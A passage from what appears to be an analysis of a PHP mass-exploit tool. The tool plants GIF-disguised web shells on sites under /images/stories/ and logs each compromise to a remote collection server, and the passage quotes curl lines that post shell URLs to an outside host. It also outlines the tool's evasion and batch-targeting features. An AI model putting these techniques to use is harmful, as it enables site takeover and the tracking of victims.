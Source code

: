 **Success Indicators:**
- HTTP request to shell location: `/images/stories/bruno[random].php`
- Pattern matching for GIF header signature
- Shell accessibility confirmation
- Functional PHP execution verification

### Phase 8: Centralized Logging & Success Tracking

**Logging Infrastructure:**
```php
curl_setopt($curl,CURLOPT_URL,"http://villageocelandes.org/log.php");
curl_setopt($curl, CURLOPT_POSTFIELDS,"site=".urlencode($log)."");
```

**Tracking Capabilities:**
- Successful compromise reporting
- Shell URL logging
- Centralized attack coordination
- Intelligence gathering for future operations

## Advanced Technical Analysis

### Evasion Mechanisms

**1. MIME Type Spoofing**
- GIF89a header prefix for image file disguise
- Content-Type header manipulation
- File extension bypass through rename functionality

**2. Legitimate Request Simulation**
- Standard HTTP headers and cookies
- Google Analytics tracking simulation
- Normal browser behavior mimicry

**3. Steganographic Concealment**
- PHP payload hidden within GIF file structure
- Visual file type deception
- Binary content obfuscation

### Automation Features

**1. Batch Processing**
- Multi-target exploitation from textarea input
- Line-by-line target parsing
- Automated iteration through target list

**2. Real-time Feedback**
- Live status updates with `flush()` calls
- Progress monitoring during exploitation
- Success/failure reporting per target

**3. Error Handling**
- Connection timeout detection
- Vulnerability assessment feedback
- Graceful failure management
